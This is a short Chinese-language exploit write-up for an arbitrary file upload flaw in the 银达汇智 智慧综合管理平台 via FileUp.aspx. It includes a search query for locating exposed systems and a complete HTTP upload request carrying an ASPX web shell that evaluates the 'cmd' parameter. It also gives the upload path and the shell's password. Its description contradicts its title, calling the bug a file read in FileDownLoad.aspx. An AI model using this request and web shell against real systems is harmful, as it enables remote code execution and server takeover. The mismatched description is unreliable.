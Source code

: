 # 

# 银达汇智 智慧综合管理平台 FileUp.aspx 任意文件上传漏洞

## 漏洞描述

银达汇智 智慧综合管理平台 FileDownLoad.aspx 存在任意文件读取漏洞，通过漏洞攻击者可下载服务器中的任意文件

## 漏洞影响

```
银达汇智 智慧综合管理平台
```

## 网络测绘

```
"汇智信息" && title=="智慧综合管理平台登入"
```

## 漏洞复现

登陆页面

![image-20220525150952244](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514171.png)

文件上传请求包

```
POST /Module/FileUpPage/FileUp.aspx?orgid=1&type=NNewsContent HTTP/1.1
Host: 
Accept-Encoding: identity
Content-Length: 337
Accept-Language: zh-CN,zh;q=0.8
Accept: */*
User-Agent: Mozilla/5.0 (Windows NT 5.1; rv:5.0) Gecko/20100101 Firefox/5.0
Accept-Charset: GBK,utf-8;q=0.7,*;q=0.3
Connection: keep-alive
Cache-Control: max-age=0
Content-Type: multipart/form-data; boundary=62907949903a4c499178971c9dab4ad9

--62907949903a4c499178971c9dab4ad9
Content-Disposition: form-data; name="Filedata"; filename="abc.aspx"
Content-Type: image/jpeg

<%@ Page Language="Jscript"%><%Response.Write(FormsAuthentication.HashPasswordForStoringInConfigFile("abc", "MD5").ToLower());eval(Request.Item["cmd"],"unsafe");%>
--62907949903a4c499178971c9dab4ad9--
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514756.png)

响应包会返回文件名，上传的目录为

```
/imgnews/imgcontent/1/xxxxxxxxxx.aspx
```

![](https://typora-notes-1308934770.cos.ap-beijing.myqcloud.com/202205251514939.png)

出现如图成功上传木马，密码为 `cmd`
